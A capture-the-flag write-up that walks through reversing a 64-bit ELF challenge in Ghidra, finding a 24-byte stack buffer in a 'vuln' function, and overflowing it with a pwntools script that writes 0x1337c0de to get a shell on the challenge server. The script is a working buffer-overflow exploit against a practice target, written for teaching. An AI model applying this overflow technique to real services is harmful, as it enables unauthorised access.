



## Description

<p align="center">

</p>

## Solution
After download the file and checked the file, we know that it is an `ELF 64-bit LSB executable`. 

First thing we do is put it inside a reverse engineering tool called [Ghidra ](https://ghidra-sre.org/)

On the left hand side, there is a section called **function**, if we expand that we want find a function called **main**.

After further checking, we found a function called vuln and this is the function

<p align="center">

</p>

We can see that:
- local_28 holds an array of characters with length of 24.
- if local_10 equal 0x1337c0de then we can get a shell

This means we need to overflow the local_28 and insert 0x1337c0de

A simple script can help us to do so.

```PYTHON
from pwn import *
p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)
 
p.sendline(("A"*24).encode() + p64(0x1337c0de))
 
p.interactive()
```

<p align="center">

</p>
Then we can run the script and walla, we will be changed to interactive mode after we get the shell and we can ls and cat the flag out.
